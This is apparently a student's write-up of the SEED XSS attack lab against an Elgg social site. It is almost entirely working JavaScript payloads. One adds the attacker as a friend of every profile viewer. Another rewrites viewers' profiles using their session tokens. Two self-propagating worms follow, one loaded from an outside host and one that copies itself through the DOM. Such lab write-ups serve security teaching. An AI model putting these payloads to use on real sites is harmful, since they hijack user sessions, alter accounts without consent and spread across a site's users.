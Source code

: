 # Cross-Site Scripting (XSS) Attack Lab

## Fei Guo, Jul 16

### Becoming the Victim’s Friend

This script, added to Samy's profile page, will add Samy as a friend to anyone who views Samy's profile.

<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token; //Construct the HTTP request to add Samy as a friend.
var sendurl= "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;  //FILL IN
//Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
} </script>


### Modifying the Victim’s Profile

This script will modify viewers' profile if they view Samy's page.

<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  //Construct the content of your url.
  var priv = "&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2"  
  var desc = "&description=" + escape("Samy is my hero");
  var content= token + ts + name + desc + priv + guid;
  var samyGuid= 57;
  var sendurl= "http://www.seed-server.com/action/profile/edit";

  if(elgg.session.user.guid!=samyGuid) {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST", sendurl, true);
  Ajax.setRequestHeader("Content-Type",
                             "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>

### Writing a Self-Propagating XSS Worm

#### The Link Approach:

We simply write this line to attackers' profile:

<script type="text/javascript" src="http://www.example.com/xss_worm.js">
</script>

And add the following into http://www.example.com/xss_worm.js:

<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  //Construct the content of your url.
  var priv = "&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2"  
  var desc = "&description=" + escape("Samy is my hero.  <script type='text/javascript' src='http://www.example.com/xss_worm.js'>") + "</" + "script>";
  var content= token + ts + name + desc + priv + guid;
  var samyGuid= 57;
  var sendurl= "http://www.seed-server.com/action/profile/edit";

  if(elgg.session.user.guid!=samyGuid) {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST", sendurl, true);
  Ajax.setRequestHeader("Content-Type",
                             "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>

#### The DOM Approach

This one is fancier because it will "output" the same piece of code as itself, a.k.a, "self-producing" code.

<script id="worm">
  window.onload = function(){
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
  var jsCode = document.getElementById("worm").innerHTML; 
  var tailTag = "</" + "script>";
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  //Construct the content of your url.
  var priv = "&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2"  
  var desc = "&description=" + wormCode;
  var content= token + ts + name + desc + priv + guid;
  var samyGuid= 57;
  var sendurl= "http://www.seed-server.com/action/profile/edit";

  if(elgg.session.user.guid!=samyGuid) {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST", sendurl, true);
     Ajax.setRequestHeader("Content-Type",
                             "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}


</script>

